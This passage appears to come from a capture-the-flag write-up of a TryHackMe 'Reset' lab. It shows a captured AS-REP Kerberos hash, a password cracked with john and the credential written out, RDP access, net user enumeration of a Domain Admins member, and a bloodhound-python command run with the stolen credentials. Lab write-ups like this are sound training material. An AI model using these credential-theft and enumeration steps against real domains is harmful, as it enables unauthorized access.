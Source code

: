 ```
$krb5asrep$23$LEANN_LONG@THM.CORP:4acf56478aa66337560fc52b3a84ad4a$e4e13ecd5c4f89f929087ffd5ef4930aea513029f1989ec7746c8477a17c87df71012218854ca9401691a63739c16a99447311c30246a84e16420a83f0e3d179eff3c84128001c29c5de033161c444b758357620808fd74a5714a35cc379e8df1f1c63f8f35a0e1a601b0b4412cfbbe2d1e83b4d27ef3a8117d868b41e25b91bf60d7693ef2e3cb42d90cfefd87c0a2a9ab0b3dcd1ee05f82f3bcf987792a291cb5996d3a2614526101e83f501e15e4fad45a04eeaf5a24fa52c0328f0042d825d146f8a473fdd58157df4008c066bc207f82b28e38450a082287d2e758cf206331dfebf
```

Throwing these in a file called hash3, I was able to crack TABATHA_BRITT's hash:

reset_john2.png

With this password I can RDP into the target with TABATHA_BRITT:marlboro(1985)

But unfortuantely we still have AV to contend with:

reset_av.png

Manually enumerating the target we can confirm that CELIA_WONG is in the Domain Admins group:

```
PS C:\Users> net user CECILE_WONG
User name                    CECILE_WONG
Full Name                    CECILE_WONG
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            7/14/2023 7:38:00 AM
Password expires             Never
Password changeable          7/15/2023 7:38:00 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/26/2024 9:20:24 PM

Logon hours allowed          All

Local Group Memberships      *RDS Management Server*Remote Desktop Users
Global Group memberships     *DnsUpdateProxy       *Domain Admins
                             *Gu-gerardway-distlist*Domain Users
The command completed successfully.
```

Not positive where to turn next, I ran bloodhound-python against the domain in hopes getting a visual picture of things may help me move forward:

```
┌──(ryan㉿kali)-[~/THM/Reset/BH]
└─$ bloodhound-python -c All -u 'TABATHA_BRITT' -p 'marlboro(1985)' -d thm.corp -ns 10.10.186.78 --zip
```
